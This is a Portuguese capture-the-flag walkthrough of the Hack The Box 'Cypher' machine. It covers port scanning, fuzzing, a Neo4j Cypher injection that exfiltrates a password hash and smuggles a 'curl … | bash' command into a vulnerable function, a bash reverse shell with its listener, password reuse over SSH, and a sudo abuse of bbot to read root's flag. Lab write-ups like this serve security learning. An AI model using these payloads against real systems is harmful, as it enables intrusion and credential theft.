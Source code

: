 #Difficult : Medium
#OS : Linux
#Time  : 3h 23min
***
# Port Scanning
Como sempre começamos escaneando as portas abertas na máquina para termos uma noção de quais serviços estão rodando na máquina.
```bash
nmap 10.10.11.57 -sC -sV -A Pn -oN
```
![[Pasted image 20250414151325.png]]
Como não temos credenciais para o `ssh`, podemos focar na porta `80`. Após acessarmos o browser nessa porta, somos redirecionados para `cypher.htb`.

Devemos então eadiciona-lo em nosso arquivo de hosts.
![[Pasted image 20250414151716.png]]
```bash
echo "cypher.htb    10.10.11.57" >> /etc/hosts
```
***
# Fuzzing
Podemos então fazer uma enumeração dos recursos disponíveis na aplicação.
```bash
ffuf -u http://cypher.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt
```
![[Pasted image 20250414162656.png]]

No endpoint `/testing` podemos encontrar um arquivo em jar, podemos baixa-lo para dar uma olhada.
![[Pasted image 20250414162800.png]]

`.jar` costuma ser uma aplicação java compilada. Podemos então decompilar essa aplicação para darmos uma olhada.
```bash
jadx-gui -d decompile custom-apoc-extension-1.0-SNAPSHOT.jar
```
![[Pasted image 20250414163118.png]]

Temos o que seria então o código da aplicação que aparentemente faz conexão com o servidor `neo4j`, podemos notar que a função `getUrlStatusCode` recebe alguma ``url`` a qual é passada sem sanitização para uma varável `command` que será executada. Então caso tenhamos acesso a essa função poderíamos usa-la para executar código arbitrário.
![[Pasted image 20250414163543.png]]
***
# Cypher Injection
Após mapear a aplicação achei um formulário de login que quebra após ser submetido com `'`. O que pode indicar uma vulnerabilidade de `Injection`.
![[Pasted image 20250414153646.png]]

Interceptei com o `Burp Suite`, para fazer uma análise mais controlada, podemos envia-la para o `repeater(Ctrl+r)`. Após fazer o envio, recebemos o seguinte erro.
![[Pasted image 20250414154448.png]]

No erro podemos notar o uso do `neo4j` que é um banco de dados de relacionamento de grafos. E o uso de sua linguagem `OpenCipher`. Nesse ponto eu não sabia muito sobre o `neo4j` nem sobre o `OpenCipher` ,as esses 3 artigos me ajudaram a entender como prosseguir com a exploração.
- [Protecting against Cypher Injection](https://neo4j.com/developer/kb/protecting-against-cypher-injection/)
- [Cypher Injection Cheat Sheet](https://pentester.land/blog/cypher-injection-cheatsheet/#example-in-band-injection-with-union)
- [Fun with Cypher Injections](https://hackmd.io/@Chivato/rkAN7Q9NY)
- [The most underrated injection of all time — CYPHER INJECTION. Identification & Exploitation!](https://infosecwriteups.com/the-most-underrated-injection-of-all-time-cypher-injection-fa2018ba0de8)

Comecei então iniciando um servidor `http` com `python` e mandei uma payload com `LOAD CSV` para validação.
```bash
python3 -m http.server 80
```

Devemos colocar `OR 1=1` pois a condição tem que retornar verdadeiro para conseguirmos executar as condições subsequentes.
```json
{
	"username" : "admin' OR 1=1 LOAD CSV FROM 'http://10.10.14.174/'+h.value as value Return '' //",
	"password" : "12345"
}
```
![[Pasted image 20250414165918.png]]
Embora tenhamos a `hash` do usuário `admin`, não consegui quebra-la.

A função `custom.getUrlStatusCode()` que pegamos no código java que achamos na enumeração de subdomínio faz parte do pacote `apoc`. Então podemos utiliza-lo em nossas consultas.

Após muitos testes, achei a payload certa. Devemos fazer o `RETURN` antes de usarmos o `UNION` pois ele precisa finalizar a `query` para fazermos outra
```json
{
	"username" : "admin' RETURN h.value AS value  UNION CALL custom.getUrlStatusCode(\"127.0.0.1;curl 10.10.14.174/shell.sh|bash;\") YIELD statusCode AS value RETURN value ; //",
	"password" : "12345"
}
```

Então criamos a payload  `shell.sh` que será servido no servidor `http`.
```bash
echo "/bin/bash -i >& /dev/tcp/10.10.14.174/4545 0>&1" > shell.sh
python -m http.server 80
```

Então podemos iniciar o nosso `listener`. Podemos mandar nossa solicitação, e então recebemos a conexão.
```bash
nc -lvnp 4545
```
![[Pasted image 20250414173033.png]]
***
# Movimentação Lateral
Na pasta `/home` há um arquivo de configurações que temos acesso.
```bash
cat /home/graphasm/bbot_preset.yml
```
![[Pasted image 20250414173606.png]]

Podemos reutilizar essa senha para o usuário `graphasm`, e acessar via `ssh`.
```bash
ssh grphasm@cypher.htb
ls -l
```
![[Pasted image 20250414173815.png]]
***
# PRIV ESC
Podemos agora ver quais comandos podemos executar com `sudo`.
```bash
sudo -l
```
![[Pasted image 20250414173908.png]]

Primeiro fiz uma leitura do menu de ajuda do binário.
```bash
sudo /usr/local/bin/bbot -h
```
![[Pasted image 20250414174006.png]]

Podemos colocar como entrada um arquivo que irá servir de `regras yara`. E então abrir o modo de depuração para vermos esse arquivo.
![[Pasted image 20250414174206.png]]

```bash
sudo /usr/local/bin/bbot -cy /root/root.txt --debug
```
![[Pasted image 20250414174719.png]]

**Owned!**
***

![[Pasted image 20250414174923.png]]

